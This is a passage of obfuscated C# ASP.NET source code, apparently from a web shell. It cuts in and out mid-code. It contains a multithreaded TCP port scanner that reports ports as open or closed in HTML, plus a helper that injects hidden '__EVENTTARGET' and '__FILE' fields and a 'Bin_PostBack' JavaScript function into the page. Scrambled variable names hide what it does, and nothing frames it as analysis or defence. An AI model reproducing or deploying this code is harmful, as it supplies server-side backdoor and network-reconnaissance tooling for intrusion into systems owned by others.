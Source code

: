 {
kbXY[sdO]=new Thread(new ThreadStart(((ScanPort)IVc[sdO]).Scan));
kbXY[sdO].Start();
}
for(sdO=0;sdO&lt;kbXY.Length;sdO++)
kbXY[sdO].Join();
}
catch
{
}
}
public class ScanPort
{
private string _ip="";
private int jTdO=0;
private TimeSpan _timeSpent;
private string QGcH="Not scanned";
public string ip
{
get { return _ip;}
}
public int port
{
get { return jTdO;}
}
public string status
{
get { return QGcH;}
}
public TimeSpan timeSpent
{
get { return _timeSpent;}
}
public ScanPort(string ip,int port)
{
_ip=ip;
jTdO=port;
}
public void Scan()
{
TcpClient iYap=new TcpClient();
DateTime qYZT=DateTime.Now;
try
{
iYap.Connect(_ip,jTdO);
iYap.Close();
QGcH="&lt;font color=green&gt;&lt;b&gt;Open&lt;/b&gt;&lt;/font&gt;";
}
catch
{
QGcH="&lt;font color=red&gt;&lt;b&gt;Close&lt;/b&gt;&lt;/font&gt;";
}
_timeSpent=DateTime.Now.Subtract(qYZT);
}
}
public static void YFcNP(System.Web.UI.Page page)
{
page.RegisterHiddenField("__EVENTTARGET","");
page.RegisterHiddenField("__FILE","");
string s=@"&lt;script language=Javascript&gt;";
s+=@"function Bin_PostBack(eventTarget,eventArgument)";
s+=@"{";
s+=@"var theform=document.forms[0];";
s+=@"theform.__EVENTTARGET.value=eventTarget;";
